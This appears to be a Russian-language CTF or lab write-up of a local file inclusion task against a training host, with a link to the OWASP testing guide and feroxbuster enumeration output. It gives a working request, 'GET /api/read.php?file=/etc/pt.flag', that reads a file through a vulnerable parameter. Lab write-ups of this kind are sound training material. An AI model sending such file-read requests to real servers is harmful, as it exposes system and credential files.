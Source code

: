 ```yaml
---
attack: lfi
---
```

Реализуйте LFI на узле [www.edu.stf](http://www.edu.stf) (10.124.1.235).  
Флаг лежит в файле /etc/pt.flag.

Думаю если вы не знаете про эту уязвимость стоит про нее прочитать...
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion

Заходим на сайт и  видим:
при запросе на страницу видим  ЭТо(или же данный запрос сам бывает проскакивает через некоторое время  ) (или же можно было просто найти js файл в консоли  разрабаботчика )
![[Pasted image 20240820181004.png]]
Меняем запрос на след запрос, как сказано в задании
`GET /api/read.php?file=/etc/pt.flag HTTP/1.1`


#### feroxbuster
```
200      GET      134l      222w     2144c http://www.edu.stf/style.css
200      GET       15l       45w      477c http://www.edu.stf/assets/getLoad.js
200      GET        3l       40w      312c http://www.edu.stf/assets/arrow-right.svg
200      GET      193l     1057w    94180c http://www.edu.stf/assets/pubtrans.png
200      GET      142l      924w    82615c http://www.edu.stf/assets/ship.png
200      GET      161l     1009w    82923c http://www.edu.stf/assets/plane.png
200      GET      449l     2278w   179214c http://www.edu.stf/assets/train.png
301      GET        7l       20w      231c http://www.edu.stf/api => http://www.edu.stf/api/
301      GET        7l       20w      234c http://www.edu.stf/assets => http://www.edu.stf/assets/
200      GET       83l      190w     2972c http://www.edu.stf/
200      GET       70l       93w     2148c http://www.edu.stf/config
[####################] - 9s     61421/61421   0s      found:11      errors:0      
[####################] - 8s     20469/20469   2616/s  http://www.edu.stf/ 
[####################] - 7s     20469/20469   2789/s  http://www.edu.stf/api/ 
[####################] - 7s     20469/20469   2794/s  http://www.edu.stf/assets/ 
```
[[web-2-2]]